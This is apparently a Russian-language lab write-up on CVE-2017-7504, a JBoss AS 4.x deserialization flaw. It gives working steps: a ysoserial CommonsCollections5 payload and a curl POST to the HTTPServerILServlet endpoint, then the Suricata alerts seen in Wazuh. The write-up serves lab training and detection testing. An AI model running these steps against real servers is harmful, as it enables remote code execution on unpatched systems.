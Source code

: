 # CVE-2017-7504

CVE-2017-7504 является уязвимостью десериализации, уязвимыми являются JBoss AS 4.x и предыдущие версии. Принцип уязвимости. В JBoss AS 4.x и более ранних версиях файл HTTPServerILServlet.java уровня вызова JServer через HTTP в процессе реализации JBossMQ имеет уязвимость десериализации.

Злоумышленник может использовать эту уязвимость для выполнения произвольного кода со специальными сериализованными данными.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Чтобы сгенерировать полезную нагрузку, нужно скачать [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) и выполнить данную команду

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Если при генерации пэйлоада возникает подобная ошибка, нужно откатить версию Java

> Для генерации подойдет 11 версия&#x20;
>
> Чтобы откатить java к 11 версии, нужно найти пакет с помощью команды sudo apt search jdk и скачать его, а затем выполнить команду sudo update-alternatives --config java и sudo update-alternatives --config javac и выбрать 11 версию
>
>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

После этого отправляем содержимое файла как тело POST-запроса

```
curl http://ваш-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

Результатом эксплуатации является создание файла /tmp/success

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
